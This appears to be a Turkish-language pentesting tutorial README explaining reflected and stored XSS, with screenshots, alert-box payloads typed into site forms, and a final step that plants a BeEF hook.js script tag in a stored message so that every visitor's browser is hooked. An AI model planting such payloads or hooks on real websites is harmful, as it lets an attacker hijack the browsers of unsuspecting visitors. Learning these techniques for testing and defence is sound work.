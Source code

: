 # XSS Açıkları

#### XSS açıkları site içinde JS kodu çalıştırabiliyoruz demektir

> ## XSS Reflected

#### Bir link oluşturmamız gerekiyor 
#### Site içinde site ile etkileşime girebileceğimiz yer arıyoruz 
![](https://github.com/ahmetnuysal/Cyber-Security/blob/b8d58a9d2f710cb023f9ac0dbb2d83c22e457eba/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-30%20at%2013.39.08.jpeg)
#### Bu kısıma ```<script>alert("ı hack you")</script>``` yazıyoruz ve submit ediyoruz
![](https://github.com/ahmetnuysal/Cyber-Security/blob/f7a0ec1433d1e05fd007503381c54e818cfce8e6/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-30%20at%2013.42.12.jpeg)
#### Eğer birisine sitenin ```url```sini yollarsak yolladığımız kişininde ekranında bu bildirimi görürüz

> ## XXS Stored
#### Bu sefer form siteleri benzeri bir etkileşim yeri buluyoruz
![](https://github.com/ahmetnuysal/Cyber-Security/blob/41454e2cfb3fb9afae9f262e08f50311f927397e/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-30%20at%2014.03.03.jpeg)
#### Rastgele bir isim giriyoruz, mesaj kısmına ```<script>alert("ı hack you")</script>``` yazıyoruz ve submit ediyoruz
![](https://github.com/ahmetnuysal/Cyber-Security/blob/9991c76b35828899d62e508174455d796dc28ba0/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-30%20at%2014.05.40.jpeg)
#### Mesajımızı siteye giren herkes göreceği için bu sayfaya giren herkesin ekranında ```ı hack you``` mesajı görülecek
![](https://github.com/ahmetnuysal/Cyber-Security/blob/f7a0ec1433d1e05fd007503381c54e818cfce8e6/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-30%20at%2013.42.12.jpeg)
> ## XSS Stored ve Beef Çalıştırma
#### ```beef-xss``` ile beef'i açıyoruz
#### ```example``` kısmınıdaki ```<script src="http://.../hook.js"></script>```kodunu kopyalıyoruz ve sitemize geri dönüyoruz
#### Bu kodu mesaj kısımına yapıştırıp submit ediyoruz
#### Artık bu siteye giren herkes hook'umuza takılmış olucak ve ```beef``` üzerinden bize görünür olucak
